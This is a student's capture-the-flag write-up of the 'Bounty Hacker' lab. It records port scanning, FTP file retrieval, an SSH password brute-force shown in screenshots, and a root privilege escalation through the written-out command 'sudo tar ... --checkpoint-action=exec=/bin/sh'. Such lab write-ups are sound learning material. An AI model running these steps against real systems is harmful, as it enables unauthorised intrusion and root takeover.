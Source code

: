 ```yaml
---
Title: SWS101 BOUNTY HACKER
categories: [SWS101,CTF Journal]
tags: SWS 101
---
```


![bounty hacks](../assets/bountyhacker/bountyhacker.png)

### Penetration Test Report
Target: 10.10.21.191

### Information Gathering Phase

Port Scanning with Nmap:

    nmap -sV -vv 10.10.21.191


![nmap](../assets/bountyhacker/bountynmap.png)

![nmap 2](../assets/bountyhacker/bountynmap2.png)

    PORT      STATE  SERVICE         REASON       VERSION
    20/tcp    closed ftp-data        conn-refused
    21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
    22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))



Found 3 ports open.

![web page](../assets/bountyhacker/bountywebpage.png)

I couldn't find any sensetive information here.

lets go for open port 21.

![ftp login](../assets/bountyhacker/bountyftplogin.png)

![lftp login](../assets/bountyhacker/bountyftplogin.png)

Found 2 files, lets get it...

![ftp error](../assets/bountyhacker/bountyftperror.png)

I don't know why ftp is giving not working. So I tried to use it's alternative which is lftp.  It works same as ftp. 

![lftp ls](../assets/bountyhacker/bountylftpls.png)

I am getting same output as ftp. 

![file](../assets/bountyhacker/bountyftpfile.png)

![task file](../assets/bountyhacker/task.png)

I guess "lin" is the user because he was the one who wrote this file.

![locks file](../assets/bountyhacker/locks.png)

This looks like list of password for the lin which we can use for shh login.

![lin hydra](../assets/bountyhacker/bountylinpass.png)

I got the password for user lin. Now I guess I can login into ssh.

![ssh login](../assets/bountyhacker/bountysshlogin.png)

Login successful!!

![user password](../assets/bountyhacker/bountyuser.png)

### Privilege Escalation

![tar](../assets/bountyhacker/bountylintar.png)


lin@bountyhacker:~/Desktop$ sudo -l

    User lin may run the following commands on bountyhacker:
        (root) /bin/tar


It says that I can run tar command.

![tar command](../assets/bountyhacker/bountytar.png)

![sudo tar](../assets/bountyhacker/bountytarcmd.png)

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![sudo tar](../assets/bountyhacker/bountytarls.png)

OHH.. I got the root shell!!

![foot flag](../assets/bountyhacker/bountyroottxt.png)

![yeah](../assets/bountyhacker/bountyyeah.gif)

### Final Thought

The room has been quite engaging so far, and I've successfully navigated the challenges it presented. My only setback was connecting to the FTP server, but I discovered an alternative to FTP, which is LFTP. I'm eager to proceed to the next room.

![bye](../assets/bountyhacker/bountybye.gif)